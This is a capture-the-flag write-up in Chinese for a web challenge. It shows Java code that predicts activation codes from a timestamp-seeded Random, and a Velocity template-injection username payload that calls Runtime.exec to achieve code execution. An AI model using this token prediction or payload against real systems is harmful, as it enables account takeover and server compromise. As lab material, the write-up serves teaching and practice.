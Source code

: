 # Unfinished Website

**Author:** tel

**Difficulty:** Hard

**Category:** Web

## 题目描述

开发到一半的网站，很多功能都没完全弄好诶（包括前端，确信），有漏洞，快挖，不然一会就修好了

## 题目解析

**暴露端口：`8080`**

使用时间戳来生成激活码，可以发注册账号请求，获取当前的时间戳，然后根据时间戳生成激活码，直接激活，然后进行登录

> java 中 `System.currentTimeMillis()` 与 python 中 `int(time.time()*1000)` 一样，可以写 python 来请求，同时记录当时的时间戳

```java
public static void main(String[] args) {
    Long time = Long.valueOf(1680932374497L);

    Random random = new Random(time);
    String characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    int length = 30;
    StringBuilder sb = new StringBuilder(length);
    for (int i = 0; i < length; i++) {
        int randomIndex = random.nextInt(characters.length());
        sb.append(characters.charAt(randomIndex));
    }
    System.out.println(sb.toString());

}
```

登录之后，使用的是 `Velocity` 模板渲染，渲染 `username` 进模板里面，注册一个 `username` 为 `#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc")` 可以弹计算器 RCE
